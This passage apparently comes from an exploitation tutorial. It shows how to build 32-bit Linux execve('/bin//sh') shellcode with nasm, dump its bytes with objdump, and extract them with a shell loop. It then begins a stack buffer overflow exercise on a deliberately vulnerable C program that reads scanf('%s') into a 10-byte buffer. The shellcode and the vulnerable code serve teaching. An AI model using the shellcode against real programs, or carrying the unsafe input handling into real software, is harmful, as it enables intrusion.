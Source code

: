 Use `nasm` to compile it.  
`nasm -f elf shellcode.asm`

Now you would want to obtain the shell code bytes. What are they? They are
machine code that corresponds to those instructions.
How can we get those? `objdump` will help.
`objdump -d shellcode.o`
You will get something like.
```
shellcode.o:     file format elf32-i386
Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	50                   	push   %eax
  10:	89 e2                	mov    %esp,%edx
  12:	53                   	push   %ebx
  13:	89 e1                	mov    %esp,%ecx
  15:	b0 0b                	mov    $0xb,%al
  17:	cd 80                	int    $0x80
```
You can use the following shell code to get that extracted. :cool:
``for i in `objdump -d shellcode.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done``

Exploiting actual programs:
---

#### 1. Lets consider this code.
```c
#include <stdio.h>

void bar()
{
    printf("How come you entered into bar ?\n");
}

void foo()
{
    char buffer[10];
    scanf("%s", buffer);
    printf("Hello ji %s \n", buffer);
}

int main()
{
    foo();
    return 0;
}
```
The task is to change the control flow so that `bar` function is called.
Lets start doing it. Compilation instruction are there in the file.
Identify the buffer location and how far is $ebp from it.
`objdump -d ./first`
```
0804848b <bar>:
 804848b:	55                   	push   %ebp
 804848c:	89 e5                	mov    %esp,%ebp
 ...

080484a4 <foo>:
```